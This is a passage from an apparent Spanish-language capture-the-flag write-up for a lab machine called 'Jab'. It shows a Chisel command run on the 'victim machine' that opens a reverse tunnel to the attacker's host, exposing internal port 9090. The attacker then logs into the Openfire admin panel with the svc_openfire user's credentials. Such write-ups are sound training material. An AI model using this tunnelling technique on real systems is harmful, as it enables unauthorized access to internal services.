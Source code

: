 4. **Conectar desde la máquina víctima:**  
   En la máquina víctima, ejecutamos el cliente Chisel para establecer el túnel inverso:  
   ```powershell
   .\chisel.exe client ip:8001 R:9090:127.0.0.1:9090
   ```

   Esto redirigirá el puerto **9090** de la máquina víctima a nuestra máquina atacante. Ahora tenemos acceso a la interfaz gráfica de Openfire.
<figure>
<img src="/assets/img/Jab/Imagen18.png" >
</figure>  

5. **Acceder a la interfaz de Openfire:**  
   Utilizamos las credenciales del usuario **svc_openfire** para autenticarnos en la interfaz gráfica. 
<figure>
<img src="/assets/img/Jab/Imagen19.png" >
</figure>  
